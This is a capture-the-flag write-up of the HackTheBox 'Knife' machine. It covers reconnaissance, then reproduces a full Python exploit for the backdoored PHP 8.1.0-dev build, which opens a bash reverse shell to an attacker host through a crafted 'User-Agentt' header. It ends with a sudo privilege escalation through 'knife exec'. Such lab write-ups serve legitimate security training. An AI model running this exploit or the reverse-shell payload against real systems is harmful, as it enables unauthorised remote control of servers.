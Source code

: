 ```yaml
---
title: Knife
tags:
  - HackTheBox
  - Easy
  - Linux
  - PHP
  - Sudo-Vulnerability
---
```

![](Pasted%20image%2020241105182621.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.242 knife.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- knife.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

So I inspected the website:

![](Pasted%20image%2020241105182921.png)

 After inspecting the source code, I decided to enumerate with [Ffuf 🐳](/notes/tools/ffuf.md):

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt:FUZZ -u http://knife.htb/FUZZ -s

.htpasswd
.htaccess
.hta
index.php
server-status
```

We can now use [cURL ⚙️](/notes/tools/cURL.md) to find out which php version is being used:

```shell
curl -I http://knife.htb/index.php

HTTP/1.1 200 OK
Date: Tue, 05 Nov 2024 17:41:23 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

## Weaponization

So now we can search for "*PHP 8.1.0-dev exploits*". I found the following [Exploit in Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce):

```python
# Exploit Title: PHP 8.1.0-dev Backdoor Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#     - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# CVE : N/A
# References:
#     - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#     - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.

Usage:
  python3 revshell_php_8.1.0-dev.py <target-ip> <attacker-ip> <attacker-port>
"""

#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
    
```

## Exploitation

> If we execute the script, we'll get a reverse shell :D

```shell
python3 exploit.py http://knife.htb 10.10.14.24 666
```

![](Pasted%20image%2020241105185303.png)

> So now we can read user flag:

![](Pasted%20image%2020241105185426.png)

## Privilege escalation

If we run:

```shell
sudo -l

Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

So we can execute that binary with sudo permissions. I found this sudo vulnerability in [GTFOBins](https://gtfobins.github.io/gtfobins/knife/):

```shell
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

> We can now read root flag :D

![](Pasted%20image%2020241105190005.png)

==Machine pwned!==
